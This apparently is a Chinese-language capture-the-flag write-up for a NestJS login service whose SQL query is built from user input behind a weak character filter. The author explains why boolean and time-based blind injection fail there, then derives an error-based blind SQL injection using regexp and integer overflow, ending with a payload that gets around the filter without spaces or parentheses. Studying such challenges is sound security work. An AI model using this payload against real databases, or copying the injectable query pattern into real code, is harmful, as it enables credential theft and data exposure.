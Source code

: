 ~~~nodejs

function safe(str: string): string {
  const r = str
    .replace(/[\s,()#;*\-]/g, '')
    .replace(/^.*(?=union|binary).*$/gi, '')
    .toString();
  return r;
}

@Injectable()
export class AuthService {
  constructor(private connectionProvider: ConnectionProvider) {}

  async validateUser(username: string, password: string): Promise<User> | null {
    const sql = `SELECT * FROM auth WHERE username='${safe(username)}' LIMIT 1`;
    const [rows] = await this.connectionProvider.use((c) => c.query(sql));
    const user = rows[0];
    if (user && user.password === password) {
      // eslint-disable-next-line @typescript-eslint/no-unused-vars
      const { password, ...result } = user;
      return result;
    }
    return null;
  }
}
```
~~~

看到了提示中的`regexp`，就想到了利用`regexp`进行盲注。

但是，这里不管有没有查询出结果，只要没拿到最终的用户名密码之前，都返回null，这就无法进行布尔盲注了

那有没有可能进行时间盲注呢？没有括号，这里调用不了像`sleep()`之类的函数。再结合regexp，会不会正则匹配进行延时，然而并没有想象这么简单，进过本地一番测试发现，一延时mysql直接报Timeout了 ，没法利用。



没有布尔盲注和时间盲注的明显回显，我们发现当regexp传入不合语法匹配规则的时候会报错。这就可以作为我们的利用条件。



最后利用整数溢出导致报错可以

```sql
SELECT * FROM auth WHERE username='' or (username regexp '^a')+~0 or '' LIMIT 1;
```

当匹配的时候为真，溢出报错，不匹配的时候正常不报错

现在问题就变成了怎么去掉括号，加法的优先级高过regexp，并不是随随便便可以去掉的，最后用case来解决了这个问题。

payload

```sql
SELECT * FROM auth WHERE username=''||case`username`regexp'^a'when'1'then~0+1+''else'0'end||'' LIMIT 1;
```
